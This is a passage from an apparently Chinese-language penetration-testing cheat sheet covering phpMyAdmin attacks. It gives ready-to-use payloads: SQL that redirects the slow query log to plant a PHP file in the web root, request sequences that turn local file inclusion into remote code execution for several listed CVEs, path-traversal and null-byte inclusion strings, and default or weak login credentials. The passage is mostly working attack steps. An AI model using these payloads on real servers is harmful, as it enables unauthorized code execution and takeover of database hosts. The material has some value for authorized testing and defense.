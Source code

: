         - step1. 設置日誌路徑: `set GLOBAL slow_query_log_file='/var/www/html/shell.php';`
        - step2. 開啟 slow_query_log: `set GLOBAL slow_query_log=on;`
        - step3. 寫入 php: `select '<?php phpinfo();?>' from mysql.db where sleep(10);`
    - CVE-2018-19968
        - phpMyAdmin versions: 4.8.0 ~ 4.8.3
        - LFI to RCE
        - 條件
            - 能登入後台
        - step1. `CREATE DATABASE foo;CREATE TABLE foo.bar (baz VARCHAR(100) PRIMARY KEY );INSERT INTO foo.bar SELECT '<?php phpinfo(); ?>';`
        - step2. `/chk_rel.php?fixall_pmadb=1&db=foo`
        - step3. ```INSERT INTO` pma__column_infoSELECT '1', 'foo', 'bar', 'baz', 'plop','plop', ' plop', 'plop','../../../../../../../../tmp/sess_{SESSIONID}','plop';```
        - step4. `/tbl_replace.php?db=foo&table=bar&where_clause=1=1&fields_name[multi_edit][][]=baz&clause_is_unique=1`
    - CVE-2018-12613
        - phpMyAdmin versions: 4.8.x
        - LFI to RCE
        - 條件
            - 能登入後台
        - Payload
            - `index.php?target=db_sql.php%253f/../../../../../../windows/system.ini`
            - `index.php?target=sql.php%253f/../../../tmp/tmp/sess_16rme70p2qqnqjnhdiq3i6unu`
                - 在控制台執行的 sql 語句會被寫入 session
                - Session id 可以從 cookie `phpMyAdmin` 得到
    - CVE-2016-5734
        - phpmyadmin versions:
            - 4.0.10.16 之前的4.0.x版本
            - 4.4.15.7 之前的 4.4.x版本
            - 4.6.3之前的 4.6.x版本
        - php version:
            - 4.3.0 ~ 5.4.6
        - `preg_replace` RCE
        - 條件
            - 能登入後台
    - CVE-2014-8959
        - phpMyAdmin version:
            - 4.0.1 ~ 4.2.12
        - php version:
            - < 5.3.4
        - 條件
            - 能登入後台
            - 能截斷
        - Payload: `gis_data_editor.php?token=2941949d3768c57b4342d94ace606e91&gis_data[gis_type]=/../../../../phpinfo.txt%00` (需修改token)
    - CVE-2013-3238
        - versions: 3.5.x < 3.5.8.1 and 4.0.0 < 4.0.0-rc3 ANYUN.ORG
        - https://www.exploit-db.com/exploits/25136
    - CVE-2012-5159
        - versions: v3.5.2.2
        - server_sync.php Backdoor
        - https://www.exploit-db.com/exploits/21834
    - CVE-2009-1151
        - versions: 2.11.x < 2.11.9.5 and 3.x < 3.1.3.1
        - config/config.inc.php 命令執行
        - https://www.exploit-db.com/exploits/8921
    - 弱密碼 / 萬用密碼
        - phpmyadmin 2.11.9.2: root/空密碼
        - phpmyadmin 2.11.3 / 2.11.4: 用戶名: `'localhost'@'@"`
